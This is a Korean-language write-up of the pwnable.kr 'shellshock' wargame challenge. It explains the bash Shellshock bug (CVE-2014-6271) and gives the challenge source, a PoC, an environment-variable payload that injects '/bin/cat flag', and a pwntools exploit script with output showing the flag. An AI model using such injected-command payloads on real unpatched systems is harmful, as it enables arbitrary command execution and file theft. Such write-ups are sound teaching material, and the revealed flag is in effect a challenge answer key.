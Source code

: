# shellshock

## shellshock.c

```c
#include <stdio.h>
int main(){
	setresuid(getegid(), getegid(), getegid());
	setresgid(getegid(), getegid(), getegid());
	system("/home/shellshock/bash -c 'echo shock_me'");
	return 0;
}
```
이 문제는 shellshock 취약점을 이용하는 문제다. uid, gid를 설정해주고 shellshock 취약점이 남아있는 구버전 `bash`로 `shock_me` 환경변수를 출력한다.

shellshock 취약점을 검색하면 나오는 poc코드는 아래와 같다.

```env X='() { :; }; echo "CVE-2014-6271 vulnerable"' bash -c id```

이 취약점은 서브쉘을 실행할 때 환경변수를 파싱하는 과정에서 `()`로 시작하는 환경변수를 함수로 인식해 생기는 취약점이다.

이를 이용해 페이로드를 짜면 다음과 같다.

```env X=\'() { :;}; /bin/cat flag\' ./shellshock```

## exploit.py

```python
from pwn import *

context.log_level = 'debug'

shell = ssh('shellshock', 'pwnable.kr', 2222, 'guest')

payload = 'env x=\'() { :;}; /bin/cat flag\' ./shellshock'

r = shell.run(payload)

r.recv()
```

```bash
[+] Connecting to pwnable.kr on port 2222: Done
[*] passcode@pwnable.kr:
    Distro    Ubuntu 16.04
    OS:       linux
    Arch:     amd64
    Version:  4.10.0
    ASLR:     Enabled
[+] Opening new channel: "stty raw -ctlecho -echo; cd . >/dev/null 2>&1;env x='() { :;}; /bin/cat flag' ./shellshock": Done
[DEBUG] Received 0x42 bytes:
    'only if I knew CVE-2014-6271 ten years ago..!!\n'
    'Segmentation fault\n'
[*] Closed SSH channel with pwnable.kr
```